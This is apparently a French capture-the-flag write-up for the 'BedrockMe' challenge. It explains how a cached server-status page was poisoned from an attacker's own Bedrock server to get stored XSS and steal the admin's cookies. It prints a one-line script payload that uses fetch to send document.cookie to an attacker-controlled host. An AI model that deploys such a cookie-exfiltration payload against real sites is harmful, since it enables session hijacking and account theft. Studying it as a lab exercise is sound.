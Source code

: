 # BedrockMe

> Trouver un moyen de récupérer les cookies de l'administrateur qui vient régulièrement consulté le status de son serveur à l'adresse `localserver:19132`

## Solution

En analysant le code donné, on pouvait observer qu'un système de cache était mis en place. Ainsi, le status réel du serveur n'était pas demandé à chaque fois, seul une seule demande était faites: un ping du serveur. Ce ping/pong servait par la suite à récupérer le cache du serveur si disponible: l'identifiant du serveur était utilisé comme clé de cache.  

En venant entrer une adresse d'un serveur à nous qui répondait à la requête ping, nous pouvions ainsi modifier le cache et placer ce que l'on voulait dedans et ainsi, récupérer les cookies de l'administrateur. Deux solutions s'offrait à nous:
- Utiliser un serveur bedrock déjà existant ([PocketMine](https://github.com/pmmp/PocketMine-MP), [Dragonfly](https://github.com/df-mc/dragonfly)) et venir développer un plugin/modifier les propriétés permettant d'injecter du code.
- Développer un service répondant aux requêtes et permettant l'injection de code.

Le code à injecter était assez simple car une simple balise `<script>` suffisait. Il fallait ensuite récupérer les cookies et les envoyer à notre serveur. Pour cela, nous avons utilisé la fonction `fetch` de JavaScript et `webhook.site` pour récupérer les cookies. Cela pouvait donner: 
```
<script>fetch('https://mon_site?cookie='+document.cookie)</script>
```
Ainsi, tout les cookies du navigateur de l'administrateur sont transmis à notre serveur. Il ne reste plus qu'à les récupérer et trouver le flag dedans.